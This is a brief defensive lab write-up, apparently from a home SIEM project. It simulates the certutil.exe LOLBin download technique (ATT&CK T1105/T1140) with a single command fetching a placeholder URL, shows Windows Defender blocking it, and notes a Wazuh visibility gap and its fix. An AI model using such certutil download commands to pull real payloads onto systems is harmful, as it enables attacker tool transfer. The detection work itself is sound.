

# T1105 / T1140: Certutil Download Abuse (Endpoint-Layer Prevention)

**Tactics:** Command and Control (T1105 Ingress Tool Transfer), Defense Evasion (T1140 Deobfuscate/Decode Files) | **ATT&CK:** https://attack.mitre.org/techniques/T1105/

## Why it matters
`certutil.exe` is a built-in Windows tool that can download files, so attackers use it as a LOLBin to fetch payloads.

## Simulation
```powershell
certutil.exe -urlcache -split -f https://example.com testfile.txt
```

## What happened
The command failed with `Access is denied`. Windows Defender blocked it, confirmed in Event Viewer under Microsoft-Windows-Windows Defender/Operational, **Event ID 1117**:
- Detection: Trojan:Win32/Ceprolad.A, severity Severe
- Command line recorded: `certutil.exe -urlcache -split -f https://example.com testfile.txt`
- Action: Remove, status: no additional action required

## Why it never reached Wazuh
Defender blocked the behaviour before a completed process-creation event was logged by Sysmon, and the Defender Operational channel is not configured as a Wazuh log source.

## Takeaway
This is a prevention success at the endpoint layer but a visibility gap at the SIEM layer. The SIEM would not have shown a defender that a download attempt happened.

## Improvement
Add the Defender Operational channel to the agent's `ossec.conf` so blocked attempts (Event IDs 1116/1117) generate alerts. This was deliberately left out of scope for v1 and is on the roadmap.

